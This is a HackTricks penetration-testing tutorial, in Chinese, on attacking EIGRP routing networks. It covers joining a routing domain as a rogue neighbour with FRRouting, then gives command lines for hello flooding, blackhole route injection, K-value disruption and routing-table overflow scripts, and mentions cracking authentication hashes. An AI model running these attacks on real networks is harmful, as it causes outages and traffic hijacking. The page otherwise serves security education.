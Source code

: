 # EIGRP 攻击

<details>

<summary><strong>从零到英雄学习 AWS 黑客攻击</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 **HackTricks** 中看到您的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

**本页面基于** [****](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)。查看以获取更多信息。

## 理解 EIGRP 协议漏洞 <a href="#0f82" id="0f82"></a>

**EIGRP (增强型内部网关路由协议)** 被识别为一个动态的、距离向量路由协议。如果忽视了认证或被动接口的配置，将观察到一个关键的漏洞，导致潜在的路由表污染。此外，EIGRP 网络或自治系统的结构是非分段的，缺乏任何形式的区域划分。这种扁平结构意味着攻击者注入的路由可能会在整个自治系统中传播。

![](../../.gitbook/assets/image (25) (1).png)

利用 EIGRP 系统的初始步骤涉及与合法的 EIGRP 路由器建立连接。这种连接开启了从侦察到各种形式的注入的途径。为了促进这一点，使用 [**FRRouting**](https://frrouting.org/)，一个开源解决方案，来在 Unix 和 Linux 系统上模拟路由器。**FRRouting** 支持多种协议，包括 BGP、OSPF 和 EIGRP。在攻击者的系统上部署 FRRouting，使他们能够在路由域内模拟一个合法的路由器。部署 FRR 在您的系统上的详细说明将在后面提供。

### 收集网络情报 <a href="#41e6" id="41e6"></a>

整合到路由域允许枚举和侦察网络，提供了一个比广泛扫描更高效的时间替代方案。这种方法不仅节省时间，还减少了被 IPS/IDS 安全系统检测的风险。实现这一点需要部署 **FRRouting**。

需要修改 `daemons` 配置文件，该文件控制守护进程活动。必须激活 **eigrpd** 守护进程。
```bash
~# nano /etc/frr/daemons
eigrpd=yes
```
![](../../.gitbook/assets/image (15) (1).png)

此外，需要对 **vtysh.conf** 文件进行调整，以确保各种协议的配置被合并到一个文件中。
```bash
~# nano /etc/frr/vtysh.conf
service integrated-vtysh-config
```
配置完成后，需要启动 FRR 守护进程并启用流量路由（在 Linux 发行版中默认禁用）。
```bash
~$ sudo systemctl start frr
~$ sudo sysctl -w net.ipv4.ip_forward=1
```
![](../../.gitbook/assets/image (32).png)

**vtysh** 命令提供了对 FRR 路由器控制面板的访问。
```bash
~$ sudo vtysh
```
示例用法：
```bash
root# show version
```
```markdown
![](../../.gitbook/assets/image (3) (2) (2).png)

> 注意：EIGRP 路由域可能通过认证来保护。然而，通过从 hello 包中提取加密哈希并重置密码，潜在的访问仍然是可能的。

在全局配置模式下，启动 **EIGRP** 过程并定义自治系统号 — **1**，以及网络位置。
```
```bash
root# config
root(config)# router eigrp 1
root(config-router) network 10.10.100.50/32
```
在与合法的EIGRP路由器（在这个案例中，是**GW1 (10.10.100.100)** 和 **GW2 (10.10.100.200)**）建立邻居连接后，路由器会交换路由信息。这个过程导致新路由出现在攻击系统的路由表中，有助于渗透测试并节省子网扫描的时间。此时，系统已成为EIGRP路由域的一部分，准备进行进一步的攻击向量开发。

![](../../.gitbook/assets/image (5) (1) (2).png)
![](../../.gitbook/assets/image (30) (1).png)
![](../../.gitbook/assets/image (29) (1) (2).png)

### 利用EIGRP：攻击向量 <a href="#51ee" id="51ee"></a>

#### 1. 伪造EIGRP邻居
大量发送EIGRP hello数据包可能导致路由器CPU过载，为DoS攻击铺平道路。使用一个脚本**helloflooding.py**来实现这一点，但其发送数据包的速度受到GIL（全局解释器锁）的限制。目前正在计划用C语言重写脚本以提高性能。

![](../../.gitbook/assets/image (2) (6) (1).png)

脚本使用时需要指定：
- 网络接口（例如，eth0）
- EIGRP自治系统号（例如，1）
- 子网位置（例如，10.10.100.0/24）
```bash
~$ sudo python3 helloflooding.py --interface eth0 --as 1 --subnet 10.10.100.0/24
```
#### 2. EIGRP 黑洞攻击
这种攻击涉及注入虚假路由以扰乱流量，通常被称为黑洞攻击。**routeinject.py** 脚本被用于此目的。例如，将 `172.16.100.140/32` 的流量重定向到一个不存在的目的地。

脚本参数包括：
- 攻击者系统接口
- EIGRP AS 号
- 攻击者的 IP 地址
- 目标子网 IP 及其掩码
```bash
~$ sudo python3 routeinject.py --interface eth0 --as 1 --src 10.10.100.50 --dst 172.16.100.140 --prefix 32
```
![](../../.gitbook/assets/image (20) (1).png)

结果是由于路由注入，导致目标主机失去连接性。

![](../../.gitbook/assets/image (6) (1) (1).png)

#### 3. 滥用 K-值
EIGRP 路由器之间不匹配的 K-值可以破坏 EIGRP 域。**relationshipnightmare.py** 脚本通过注入改变的 K-值来利用这一点，触发 EIGRP 域内持续的中断和重新连接，有效地导致 DoS 攻击。

![](../../.gitbook/assets/image (12) (2) (1).png)

脚本需要：
- 网络接口
- EIGRP AS 号码
- 合法路由器的 IP 地址

注入的更改从指定的 IP 发送到多播 EIGRP IP 地址，导致不匹配。
```bash
~$ sudo python3 relationshipnightmare.py --interface eth0 --as 1 --src 10.10.100.100
```
#### 4. 路由表溢出
此攻击通过用假路由淹没路由表，给路由器的CPU和RAM带来压力。**routingtableoverflow.py** 脚本通过快速发送大量假路由来促进这一点。

脚本参数：
- 网络接口
- EIGRP AS 编号
- 攻击者的IP地址

执行脚本后，路由表将被伪造路由饱和，严重影响路由器性能。
```bash
sudo python3 routingtableoverflow.py --interface eth0 --as 1 --src 10.10.100.50
```
![](../../.gitbook/assets/image (4) (4).png)
![](../../.gitbook/assets/image (21) (1).png)

<details>

<summary><strong>从零到英雄学习AWS黑客攻击，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**telegram群组**](https://t.me/peass)或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

